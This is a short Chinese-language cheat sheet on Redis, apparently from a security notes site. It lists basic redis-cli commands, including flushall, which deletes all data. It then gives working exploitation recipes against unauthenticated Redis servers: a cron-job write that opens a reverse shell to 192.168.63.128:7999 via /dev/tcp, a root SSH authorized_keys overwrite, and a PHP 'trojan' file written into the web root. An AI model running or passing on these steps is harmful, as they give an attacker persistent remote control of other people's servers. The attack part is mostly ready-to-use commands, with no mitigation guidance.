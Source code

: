 ```yaml
---
author: YOUZAI
title: 基础知识
date: 2023/05/10
categories:
 - 数据库安全
tags:
 - Redis
---
```


## 命令

* 连接

```sh
redis-cli -h 127.0.0.1
```

* 查看信息

```sh
>info
```

* 设置变量

```sh
set x "test" # 将变量 x 设置成 test。
```

* 删除数据库

```sh
>flushall
```

* 查看所有键

```sh
KEYS *
```

* 获取默认目录

```sh
CONFIG GET dir
```

* 获取 rdb 文件名

```sh
CONFIG GET dbfilename
```

## 利用

* 计划任务

```sh
redis-cli -h 127.0.0.1
> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
> config set dir /var/spool/cron/
> config set dbfilename root
> save
```

* 替换公钥

```sh
ssh-keygen -t rsa # 生成公钥。
> config set dir /root/.ssh/
> config set dbfilename authorized_keys
> set x "\n\n\nssh-rsa {{rsa_key}}\n\n\n"
> save
```

* 写入木马

```sh
> config set dir /var/www/html/
> config set dbfilename shell.php
> set x "<?php phpinfo();?>"
> save
```
